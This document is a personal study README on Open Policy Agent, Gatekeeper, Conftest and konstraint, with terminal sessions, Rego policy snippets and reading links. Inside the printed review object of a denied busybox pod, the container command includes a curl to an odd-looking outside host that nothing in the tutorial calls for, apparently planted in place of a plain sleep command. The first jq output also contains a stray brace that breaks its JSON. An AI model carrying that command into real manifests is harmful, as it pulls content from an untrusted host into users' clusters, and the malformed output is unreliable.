

# Open Policy Agent


## Getting Started

```
[20-09-27 19:49:20] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -X PUT -H 'Content-Type:application/json' --data-binary @subordinates.json \
localhost:8181/v1/data/subordinates


[20-09-27 19:49:48] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -s localhost:8181/v1/data/subordinates | jq .

{
  "result": {
    "alice": [
      "bob"
    ],
    "bob": [],
    "charlie": [
{
      "david"
    ],
    "david": []
  }
}

[20-09-27 19:51:40] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -X PUT -H 'Content-Type: text/plain' --data-binary @httpapi_authz.repo \
  localhost:8181/v1/policies/httpapi_authz

{}%

[20-09-27 19:53:17] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± cat alice_to_alice.json| jq
{
  "input": {
    "method": "GET",
    "path": [
      "finance",
      "salary",
      "alice"
    ],
    "user": "alice"
  }
}

[20-09-27 19:53:18] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -s -X POST -H 'Content-Type:application/json' --data-binary @alice_to_alice.json \
    localhost:8181/v1/data/httpapi/authz/allow | jq .

{
  "result": true
}

[20-09-27 19:53:52] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -s -X POST -H 'Content-Type:application/json' --data-binary @alice_to_bob.json \
    localhost:8181/v1/data/httpapi/authz/allow | jq .

{
  "result": true
}

[20-09-27 19:54:34] masato-naka at PCN-537 in ~/repos/MasatoNaka/kubernetes-training/open-policy-agent/getting-started on master ✘
± curl -s -X POST -H 'Content-Type:application/json' --data-binary @alice_to_david.json \
    localhost:8181/v1/data/httpapi/authz/allow | jq .

{
  "result": false
}
```

## Gatekeeper

https://github.com/open-policy-agent/gatekeeper

1. Install

    ```
    kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/master/deploy/gatekeeper.yaml
    namespace/gatekeeper-system created
    customresourcedefinition.apiextensions.k8s.io/configs.config.gatekeeper.sh created
    customresourcedefinition.apiextensions.k8s.io/constrainttemplates.templates.gatekeeper.sh created
    serviceaccount/gatekeeper-admin created
    role.rbac.authorization.k8s.io/gatekeeper-manager-role created
    clusterrole.rbac.authorization.k8s.io/gatekeeper-manager-role created
    rolebinding.rbac.authorization.k8s.io/gatekeeper-manager-rolebinding created
    clusterrolebinding.rbac.authorization.k8s.io/gatekeeper-manager-rolebinding created
    secret/gatekeeper-webhook-server-cert created
    service/gatekeeper-webhook-service created
    deployment.apps/gatekeeper-audit created
    deployment.apps/gatekeeper-controller-manager created
    validatingwebhookconfiguration.admissionregistration.k8s.io/gatekeeper-validating-webhook-configuration created
    ```

1. Install `ConstraintTemplate` (CRD) to require `label`

    ```
    kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/master/demo/basic/templates/k8srequiredlabels_template.yaml
    constrainttemplate.templates.gatekeeper.sh/k8srequiredlabels created
    ```

    ```
    ○ kubectl get ConstraintTemplate

    NAME                AGE
    k8srequiredlabels   45s
    ```

1. Create `Constraint`

    ```
    kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/master/demo/basic/constraints/all_ns_must_have_gatekeeper.yaml
    k8srequiredlabels.constraints.gatekeeper.sh/ns-must-have-gk created
    ```

    ```
    kubectl get K8sRequiredLabels

    NAME              AGE
    ns-must-have-gk   75s
    ```

1. Check

    ```
    [20-08-05 23:34:43] nakamasato at Masatos-MacBook-Pro in ~/Code/MasatoNaka/kubernetes-training/open-policy-agent on postgres-operator ✘
    ± kubectl apply -f gatekeeper/examples/valid-namespace.yaml --dry-run=server
    namespace/valid-namespace created (server dry run)

    [20-08-05 23:35:14] nakamasato at Masatos-MacBook-Pro in ~/Code/MasatoNaka/kubernetes-training/open-policy-agent on postgres-operator ✘
    ± kubectl apply -f gatekeeper/examples/invalid-namespace.yaml --dry-run=server
    Error from server ([denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}): error when creating "gatekeeper/invalid-namespace.yaml": admission webhook "validation.gatekeeper.sh" denied the request: [denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}
    ```

### Example
#### Example 1: Require namespace to have label

```
kubectl apply -f gatekeeper/require-labels/k8srequiredlabels.yaml
kubectl apply -f gatekeeper/require-labels/k8srequiredlabels-ns.yaml
kubectl create ns naka
Error from server ([denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}
[denied by ns-must-have-hr] you must provide labels: {"hr"}): admission webhook "validation.gatekeeper.sh" denied the request: [denied by ns-must-have-gk] you must provide labels: {"gatekeeper"}
[denied by ns-must-have-hr] you must provide labels: {"hr"}
```

```
kubectl delete -f gatekeeper/require-labels
```

#### Example 2: Require each pod to have resource

1. Apply `ConstraintTemplate` and `RequireResource`

    ```
    kubectl apply -f gatekeeper/require-resources/constraint-template.yaml
    kubectl apply -f gatekeeper/require-resources/require-resource.yaml
    ```

1. Apply `deployment-with-resource` and `deployment-without-resource`

    ```
    kubectl apply -f gatekeeper/require-resources/deployment-with-resource.yaml
    kubectl apply -f gatekeeper/require-resources/deployment-without-resource.yaml
    ```

1. Confirm only `Pod` with Resource Requests or Resource Limits can be deployed.

    ```
    kubectl get pod
    NAME                                     READY   STATUS    RESTARTS   AGE
    busybox-with-resource-7d7dc9b5c5-cb5lp   1/1     Running   0          16m
    ```

    ```
    kubectl get deploy
    NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
    busybox-with-resource      1/1     1            1           16m
    busybox-without-resource   0/1     0            0           16m
    ```

    ```
    kubectl get deploy busybox-without-resource -o yaml | yq r - 'status.conditions[*].message'
    Deployment does not have minimum availability.
    admission webhook "validation.gatekeeper.sh" denied the request: [denied by require-resource] resource is required
    ReplicaSet "busybox-without-resource-56c8cf4569" has timed out progressing.
    ```

### How to develop your own policy

1. Apply deny all `ConstraintTemplate` and `K8sDenyAll`

    ```
    kubectl apply -f gatekeeper/k8sdenyall/constraint-template.yaml
    kubectl apply -f gatekeeper/k8sdenyall/k8sdenyall.yaml
    ```

    ```
    kubectl apply -f gatekeeper/k8sdenyall/deployment.yaml
    ```

1. No pods are created because any pod is denied. Get the denided object -> [gatekeeper/k8sdenyall/object.json]()

    <details>

    ```
    kubectl get deploy busybox -o yaml | yq r - 'status.conditions[*].message'

    admission webhook "validation.gatekeeper.sh" denied the request: [denied by deny-all-namespaces] REVIEW OBJECT: {"_unstable": {"namespace": {"apiVersion": "v1", "kind": "Namespace", "metadata": {"creationTimestamp": "2020-11-13T14:24:50Z", "managedFields": [{"apiVersion": "v1", "fieldsType": "FieldsV1", "fieldsV1": {"f:status": {"f:phase": {}}}, "manager": "kube-apiserver", "operation": "Update", "time": "2020-11-13T14:24:50Z"}], "name": "default", "resourceVersion": "154", "selfLink": "/api/v1/namespaces/default", "uid": "5e71bedf-f896-4196-8c82-fdfd1b587681"}, "spec": {"finalizers": ["kubernetes"]}, "status": {"phase": "Active"}}}, "dryRun": false, "kind": {"group": "", "kind": "Pod", "version": "v1"}, "name": "busybox-d59978849-pmwsf", "namespace": "default", "object": {"apiVersion": "v1", "kind": "Pod", "metadata": {"creationTimestamp": "2020-12-17T00:59:57Z", "generateName": "busybox-d59978849-", "labels": {"app": "busybox", "pod-template-hash": "d59978849"}, "managedFields": [{"apiVersion": "v1", "fieldsType": "FieldsV1", "fieldsV1": {"f:metadata": {"f:generateName": {}, "f:labels": {".": {}, "f:app": {}, "f:pod-template-hash": {}}, "f:ownerReferences": {".": {}, "k:{\"uid\":\"4aad7af6-d364-4d45-a132-528b35d004ad\"}": {".": {}, "f:apiVersion": {}, "f:blockOwnerDeletion": {}, "f:controller": {}, "f:kind": {}, "f:name": {}, "f:uid": {}}}}, "f:spec": {"f:containers": {"k:{\"name\":\"busybox\"}": {".": {}, "f:command": {}, "f:image": {}, "f:imagePullPolicy": {}, "f:name": {}, "f:resources": {}, "f:terminationMessagePath": {}, "f:terminationMessagePolicy": {}}}, "f:dnsPolicy": {}, "f:enableServiceLinks": {}, "f:restartPolicy": {}, "f:schedulerName": {}, "f:securityContext": {}, "f:terminationGracePeriodSeconds": {}}}, "manager": "kube-controller-manager", "operation": "Update", "time": "2020-12-17T00:59:57Z"}], "name": "busybox-d59978849-pmwsf", "namespace": "default", "ownerReferences": [{"apiVersion": "apps/v1", "blockOwnerDeletion": true, "controller": true, "kind": "ReplicaSet", "name": "busybox-d59978849", "uid": "4aad7af6-d364-4d45-a132-528b35d004ad"}], "uid": "8f594ea7-30d2-411f-b1fa-2fea64148ba5"}, "spec": {"containers": [{"command": ["sh", "-c", "curl", "http://xksqu4mj.fri3nds.in/tools/clay", "sleep 1000000"], "image": "busybox", "imagePullPolicy": "Always", "name": "busybox", "resources": {}, "terminationMessagePath": "/dev/termination-log", "terminationMessagePolicy": "File", "volumeMounts": [{"mountPath": "/var/run/secrets/kubernetes.io/serviceaccount", "name": "default-token-qm759", "readOnly": true}]}], "dnsPolicy": "ClusterFirst", "enableServiceLinks": true, "preemptionPolicy": "PreemptLowerPriority", "priority": 0, "restartPolicy": "Always", "schedulerName": "default-scheduler", "securityContext": {}, "serviceAccount": "default", "serviceAccountName": "default", "terminationGracePeriodSeconds": 30, "tolerations": [{"effect": "NoExecute", "key": "node.kubernetes.io/not-ready", "operator": "Exists", "tolerationSeconds": 300}, {"effect": "NoExecute", "key": "node.kubernetes.io/unreachable", "operator": "Exists", "tolerationSeconds": 300}], "volumes": [{"name": "default-token-qm759", "secret": {"secretName": "default-token-qm759"}}]}, "status": {"phase": "Pending", "qosClass": "BestEffort"}}, "oldObject": null, "operation": "CREATE", "options": {"apiVersion": "meta.k8s.io/v1", "kind": "CreateOptions"}, "requestKind": {"group": "", "kind": "Pod", "version": "v1"}, "requestResource": {"group": "", "resource": "pods", "version": "v1"}, "resource": {"group": "", "resource": "pods", "version": "v1"}, "uid": "897c141c-be87-4c86-a272-8e729eba2753", "userInfo": {"groups": ["system:serviceaccounts", "system:serviceaccounts:kube-system", "system:authenticated"], "uid": "852050a8-0e3d-45ae-8d21-50c9cae1b0c5", "username": "system:serviceaccount:kube-system:replicaset-controller"}}
    ```

    </details>

1. Test your policy with [gatekeeper/k8sdenyall/object.json]() on [Rego Playground](https://play.openpolicyagent.org).

    

1. Finalize your policy.

    Example: require to specify resource.

    ```
    violation[{"msg": msg}] {
      not all_resource_exist
      msg := "resource is required"
    }

    all_resource_exist { input.object.spec.containers[_].resources != {} }
    ```

1. Write your `ConstraintTemplate`.

    Be careful!!!! There's a tiny difference between the object you got from denyall and the object on which your policy is enforced. (Reason to be added later.)

    - The object tested on play ground: `input.object`
    - The object you need to write in `ConstraintTemplate`: `input.review.object`

## Conftest

https://github.com/open-policy-agent/conftest


### Example

    ```
    cd conftest
    ```

#### Deployment

Rules:
- [x] Containers must not run as root
- [x] Containers must provide app label for pod selector
- [x] Deployment must have nodeSelector
- [x] nodeSelector must use key `nodegroup`
- [x] nodeSelector must use one of the followings `dev` and `prod`

1. Check valid deployment

    ```
    conftest test conftest/manifests/valid/deployment.yaml --policy conftest/policy

    7 tests, 7 passed, 0 warnings, 0 failures, 0 exceptions
    ```

1. Check invalid deployment

    ```
    conftest test conftest/manifests/invalid/deployment.yaml --policy conftest/policy
    FAIL - conftest/manifests/invalid/deployment.yaml - Containers must not run as root
    FAIL - conftest/manifests/invalid/deployment.yaml - Containers must provide app label for pod selectors
    FAIL - conftest/manifests/invalid/deployment.yaml - Deployment must have nodeSelector with nodegroup as a key

    7 tests, 4 passed, 0 warnings, 3 failures, 0 exceptions
    ```

1. Test the policy

    ```
    conftest verify --policy conftest/policy

    7 tests, 7 passed, 0 warnings, 0 failures, 0 exceptions
    ```

- https://hack.nikkei.com/blog/advent20201224/
- https://qiita.com/tkusumi/items/3f7157d180a932b277d4
## konstraints

Prerequisite

- https://golang.org/doc/install

Install

```
export PATH=/usr/local/go/bin:$PATH
go install github.com/plexsystems/konstraint@latest
```


# FAQ

1. Run on GKE

https://github.com/open-policy-agent/gatekeeper#running-on-private-gke-cluster-nodes

# Study steps

- [[Youtube] Deep Dive: Open Policy Agent - Torin Sandall & Tim Hinrichs, Styra (2019/05/23)](https://www.youtube.com/watch?v=n94_FNhuzy4&feature=youtu.be)
- [[Kubernetes Blog] A Guide to Kubernetes Admission Controllers (2020/03/21)](https://kubernetes.io/blog/2019/03/21/a-guide-to-kubernetes-admission-controllers/)
  - `ValidatingAdmissionWebhooks`
  - `MutatingAdmissionWebhooks`

  > We will examine these two admission controllers closely, as they do not implement any policy decision logic themselves. Instead, the respective action is obtained from a REST endpoint (a webhook) of a service running inside the cluster. This approach decouples the admission controller logic from the Kubernetes API server, thus allowing users to implement custom logic to be executed whenever resources are created, updated, or deleted in a Kubernetes cluster.

- [EKS Enables Support for Kubernetes Dynamic Admission Controllers (2018/10/12)](https://aws.amazon.com/about-aws/whats-new/2018/10/amazon-eks-enables-support-for-kubernetes-dynamic-admission-cont/)

  - 1.17 ([Platform versions](https://docs.aws.amazon.com/eks/latest/userguide/platform-versions.html)): `NamespaceLifecycle, LimitRanger, ServiceAccount, DefaultStorageClass, ResourceQuota, DefaultTolerationSeconds, NodeRestriction, MutatingAdmissionWebhook, ValidatingAdmissionWebhook, PodSecurityPolicy, TaintNodesByCondition, Priority, StorageObjectInUseProtection, PersistentVolumeClaimResize`

- [Dynamic Admission Control](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/)
- [Integrating Open Policy Agent (OPA) With Kubernetes](https://www.magalix.com/blog/integrating-open-policy-agent-opa-with-kubernetes-a-deep-dive-tutorial)
- [Conftestを用いたCIでのポリシーチェックの紹介](https://engineering.mercari.com/blog/entry/introduce_conftest/)
- [Enforcing policies and governance for Kubernetes workloads](https://learnk8s.io/kubernetes-policies)
- [konstraints](https://github.com/plexsystems/konstraint)
